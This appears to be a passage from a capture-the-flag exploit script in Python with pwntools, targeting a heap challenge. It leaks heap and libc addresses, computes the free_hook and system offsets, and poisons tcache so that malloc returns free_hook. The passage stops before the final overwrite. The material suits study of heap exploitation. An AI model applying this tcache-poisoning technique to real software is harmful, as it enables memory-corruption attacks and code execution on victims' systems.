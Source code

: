 ```python
    # "donut codes" are raw pointers, which allows us to trivially leak heap (and thus program base) addresses
    # mmap (and thus libc) can be leaked also, because we're allowed to create arbitrary size allocations
    # for sufficiently large allocations, malloc will service the request by mapping memory


    heap_chunk = create_donut(r, 10, b"fake name")
    log.info("leaked heap chunk address: " + hex(heap_chunk))

    mmap_chunk = create_donut(r, 2097152, b"fake name") # beeg beeg malloc so its mmapped
    log.info("leaked mmapped address: " + hex(mmap_chunk))

    heap_base = heap_chunk - 0x16c0
    program_base = heap_chunk - 0x86c0
    libc_base = mmap_chunk + 0x203ff0

    free_hook = libc_base + 0x1eeb28
    system = libc_base + 0x55410
    pop_rsp = libc_base + 0x32b5a
    log.info("leaked program base: " + hex(program_base))
    log.info("leaked libc base: " + hex(libc_base))


    # add a chunk to tcache
    # it'll get overwritten later, but it is still needed
    # because tcache stores the count apart from the linked list
    chunk = create_donut(r, 16, b"abc")
    r.sendline(b"t")
    r.sendline(hex(chunk).encode())

    # create a big chunk with a fake chunk inside it
    fake_chunk_data = b"AAAAAAA"
    fake_chunk_data += p64(0x21) + b"\x00" * 0x20
    fake_chunk = create_donut(r, 512, fake_chunk_data)
    
    # free the fake chunk
    # this means that we have a chunk in tcachebins that we can control the metadata
    # because the metadata is inside another chunk
    r.sendline(b"t")
    r.sendline(hex(fake_chunk + 0x10).encode())


    # free the parent chunk so we can recycle it by creating another name of size 512
    r.sendline(b"t")
    r.sendline(hex(fake_chunk).encode())


    # so we're going to reallocate the parent chunk with an altered fake chunk
    # specifically, we're overwriting the next pointer (tcachebins are a linked list)
    # what this means is that we can add an (almost) arbitrary pointer to tcachebins
    # which malloc will return later

    fake_chunk_data = b"AAAAAAA"
    fake_chunk_data += p64(0x20)
    fake_chunk_data += p64(free_hook - 1) # -1 because the first allocated by is used to store cookie size

    fake_chunk = create_donut(r, 512, fake_chunk_data)


    # at this point, tcachebins has two chunks; our fake chunk and our free_hook "chunk"
```